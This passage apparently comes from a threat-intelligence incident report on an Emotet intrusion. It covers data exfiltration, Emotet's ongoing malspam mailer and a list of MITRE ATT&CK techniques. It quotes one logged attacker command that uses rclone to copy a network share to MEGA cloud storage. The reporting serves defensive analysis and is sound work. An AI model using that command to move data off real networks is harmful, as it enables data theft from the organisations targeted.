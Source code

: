 # Exfiltration

The threat actors used Rclone to exfiltrate sensitive data to MEGA.io cloud storage. Command line logging revealed the destination to be the Mega service and the network shares targeted.

rclone.exe, copy, \\REDACTED\Shares, mega:Shares, -q, --ignore-existing, --auto-confirm, --multi-thread-streams, 4, --transfers, 4

This activity was also visible on the network via Zeek logs showing the SMB share connection activity.

# Actions on Objectives

Emotet has for some time been used as an initial access broker for various intrusions; however, some Emotet infections get tasked with continuing the delivery of new campaigns. In this intrusion, we observed both tasks occurring during the same time with both the delivery of access to the threat actor utilizing Cobalt Strike and exfiltrating data from the network, all the while, the original Emotet malware was tasked to deliver new malicious emails.

The Emotet mailer started roughly once each day during the intrusion. Marked by bursts of connection to various email servers.

The emails were sent through various compromised email accounts, propagating additional malicious xls files to further propagate Emotet access.

We did not see any further activity but we believe if given enough time, this would have ended with domain wide ransomware. We have a case coming up in a few weeks where it does exactly that.

# MITRE ATT&CK DATASET
Dynamic-link Library Injection - T1055.001 Component Object Model - T1559.001 PowerShell - T1059.001 Regsvr32 - T1218.010 Pass the Hash - T1550.002 Domain Groups - T1069.002 Domain Account - T1087.002 Domain Trust Discovery - T1482 Malicious File - T1204.002 SMB/Windows Admin Shares - T1021.002 Lateral Tool Transfer - T1570 Process Injection - T1055 Exfiltration to Cloud Storage - T1567.002 Thread Execution Hijacking - T1055.003 Remote System Discovery - T1018 System Information Discovery - T1082 Application Layer Protocol - T1071 Network Share Discovery - T1135 Kerberoasting - T1558.003 LSASS Memory - T1003.001 Registry Run Keys / Startup Folder - T1547.001 Phishing - T1566 Spearphishing Attachment - T1566.001
